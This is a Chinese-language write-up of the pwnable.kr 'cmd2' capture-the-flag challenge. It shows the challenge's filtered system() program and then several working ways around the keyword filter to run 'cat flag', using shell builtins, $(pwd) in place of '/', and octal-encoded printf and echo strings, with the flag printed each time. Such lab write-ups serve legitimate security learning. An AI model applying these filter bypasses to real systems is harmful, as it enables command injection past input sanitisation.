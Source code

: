 ```
cmd2 - 9 pt

Daddy bought me a system command shell.
but he put some filters to prevent me from playing with it without his permission...
but I wanna play anytime I want!

ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)
```

下载程序，`scp -P 2222 -p  cmd2@pwnable.kr:/home/cmd2/* ./`  password：mommy now I get what PATH environment is for :)

源码如下：

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

cmd2是cmd1的加强版，清空了环境变量。不允许出现 = PATH export / ` flag。

由于限制了`/`,导致cmd1中的bypass方案几乎都失效了，因为没有/的情况下，当前目录没有写权限，不能调用别的命令了。system本质是调用execve /bin/sh 来执行命令的（见文末system源码调试）。所以要想方法借助sh的特性来出现/。

最终我发现了在sh有的命令是调用/bin /usr/bin目录下的文件来执行的，还存在一些命令是sh内置的命令。如sh中的echo和/bin/echo是两种文件，而且在不同的shell中实现的也不愿意。以zsh为例。

```
➜  ~ which echo
echo: shell built-in command
➜  ~ which /bin/echo
/bin/echo
```

这里介绍了csh和sh中的shell builtin command https://www.gsp.com/cgi-bin/man.cgi?section=1&topic=builtin

综上，借助sh的shell builtin command来读flag。

## flag

```bash
# sh在没有环境变量时，也可以执行command命令
cmd2@ubuntu:~$ ./cmd2 "command -p cat f\lag"
command -p cat f\lag
FuN_w1th_5h3ll_v4riabl3s_haha

# read 读取环境并执行
cmd2@ubuntu:~$ ./cmd2 "read a;\$a"
read a;$a
/bin/cat flag
FuN_w1th_5h3ll_v4riabl3s_haha

# set -s
cmd2@ubuntu:~$ /home/cmd2/cmd2 'set -s'
set -s
/bin/cat flag
FuN_w1th_5h3ll_v4riabl3s_haha


# 根目录运行pwd得到 / ，用来替代/  ,cmd1中的姿势都可以用了XD
cmd2@ubuntu:/$ /home/cmd2/cmd2 '$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla\g'
$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla\g
FuN_w1th_5h3ll_v4riabl3s_haha
```

看网上某些wp，printf echo pwd这些命令不是builtin command（例如，printf在sh中是在/usr/bin/printf目录下的），但是也可以运行，awesome！

不是builtin command，没有path的情况下，为什么可以索引到呢？以后遇到了再研究吧。

```bash
# printf  八进制数构造/bin/cat flag 
cmd2@ubuntu:~$ ./cmd2 '$(printf "\57\142\151\156\57\143\141\164\40\146\154\141\147")'
$(printf "\57\142\151\156\57\143\141\164\40\146\154\141\147")
FuN_w1th_5h3ll_v4riabl3s_haha

# sh中 echo '\57' 就是 /   '$()'会传递给程序， "$()"会直接解析再传递
cmd2@ubuntu:~$ sh
$ echo '\57'
/
cmd2@ubuntu:~$ ./cmd2 '$(echo "\57bin\57cat fla*")'
$(echo "\57bin\57cat fla*")
FuN_w1th_5h3ll_v4riabl3s_haha
```



## 参考

1. command https://medium.com/@clong/pwnable-kr-cmd1-cmd2-writeups-e6980fa8daca
2. set -s https://gist.github.com/dual5651/910a89eabcb471ab3a314ed52a82a5c7
3. set的更多参数用法 http://www.ruanyifeng.com/blog/2017/11/bash-set.html
4. read http://www.ktstartblog.top/index.php/archives/132/
5. pwd https://www.cnblogs.com/p4nda/p/7147552.html
6. printf https://medium.com/@c0ngwang/pwnable-kr-writeup-cmd2-a40142d43498
7. echo http://xhyumiracle.com/pwnablr-kr-cmd2/





## 补充：system调用sh执行命令源码

下载glibc后，开始调试system源码。

```bash
# 编译
gcc system.c -g -o system
# 调试
gdb system
# 加载源码
gdb> directory /root/Pwn/glibc/glibc-2.23/sysdeps/posix/
```

system调用链：`__libc_system`->do_system->`__execve (SHELL_PATH, (char *const *) new_argv, __environ)` 。SHELL_PATH是/bin/sh。

do_system 部分源码：

```c
// ... 处理一些信号 
if (pid == (pid_t) 0)
    {
      /* Child side.  */
      const char *new_argv[4];
      new_argv[0] = SHELL_NAME;
      new_argv[1] = "-c";
      new_argv[2] = line;
      new_argv[3] = NULL;

      /* Restore the signals.  */
      (void) __sigaction (SIGINT, &intr, (struct sigaction *) NULL);
      (void) __sigaction (SIGQUIT, &quit, (struct sigaction *) NULL);
      (void) __sigprocmask (SIG_SETMASK, &omask, (sigset_t *) NULL);
      INIT_LOCK ();

      /* Exec the shell.  */
      (void) __execve (SHELL_PATH, (char *const *) new_argv, __environ);
      _exit (127);
    }
```

详细参考：关于glibc的system函数调用实现https://blog.csdn.net/u010039418/article/details/77017689